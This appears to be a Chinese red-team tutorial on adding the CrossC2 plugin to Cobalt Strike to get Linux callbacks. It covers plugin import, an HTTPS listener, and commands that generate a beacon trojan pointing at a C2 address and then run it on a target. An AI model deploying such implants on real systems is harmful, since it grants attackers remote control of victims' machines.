










# 1. 前言

默认情况下CS是不支持上线Linux的，只支持上线Windows，但是再事情的渗透测试过程中，一般企业重用的业务通常都是运行再Linux上的，这就会导致原版的CS无法上线Linux，而这时候可以使用crossC2插件来解决这个问题。

# 2. 下载插件

crossC2主要面向企业自身及红队人员的安全评估框架，支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，支持自定义模块，及包含一些常用的渗透模块。

[crossC2插件](https://github.com/gloxec/CrossC2)

这里我们需要下载两个文件，主要其中Linux与MacOS是需要根据自己的服务器系统来判断，通常来说都是使用Linux系统。



# 3. CS配置

这里我们首先先启动CS，这一步想必应该不需要解释吧！

## 3.1. 客户端配置

### 3.1.1. 导入插件文件

将下载好的后缀为.cna文件导入进CS中。



### 3.1.2. 配置监听

由于插件只支持HTTPS与TCP，所以这里我们选择的监听就选择HTTPS吧。



## 3.2. 服务端配置

### 3.2.1. 导入配置文件

这里将下载下来的结尾是.Linux的文件导入到服务器中，注意需要导入到CS目录下，并赋予执行权限。

```
chmod +x genCrossC2.Linux
```



这里最好的将CS客户端重启一次。

## 3.3. 生成木马

当在之前加载插件后，就会出现这个CroseC2了，只不过建议，当将.Linux文件上传到服务端并添加执行权限后，最好是重启以下CS客户端。

这里我们选择HTTPS的选项。



这里相关的内容看图片上的文字，生成情况，会在会话事件日志中出现，确实这个点击生成后，并会直接像CS一样弹窗出来，而且是需要你去执行命令去生成。

所以一般情况下可以不使用这个界面去生成，可以直接使用命令。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out

这个命令其实仔细看是能够看出来的的前面的是我们之前上传到服务端的.Linux文件，后面跟着服务器地址及监听端口。
后面./.cobaltstrike.beacon_keys 输入ls -l 能够看到隐藏文件，后面的想必不用介绍了吧。
```

当然如果觉得命令麻烦，那么就是直接在下面的图片中点击生成，然后将命令复制到Linux中进行执行，因为不一定能够执行成功！！



### 3.3.1. 修改cna文件

当你点击生成后会发现，命令无法执行？这是由于在cna文件中的配置并没有修改，看下图，还是mac的。这时候我们就需要去修改cna文件。


找到cna文件，也就是之前加载的文件，修改里面的地址，地址是你cs文件夹，下面的是你的系统文件，也就是刚刚下载的.Linux文件名字，其它的是不需要修改的。

修改后，要将CS客户端重启哦。



### 3.3.2. 修改后效果

可以看到前后的对比，前面有相应的路径了。



然后将命令输入到Linux中进行执行，当然我的建议是在cs目录下执行，去除前面的绝对路径。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out
```



## 3.4. 执行木马

将木马上传到Linux系统中，然后基于执行权限，并且执行木马，从CS客户端可以看到成功上线。

```
chmod +x t_cc2.out
./t_cc2.out
```

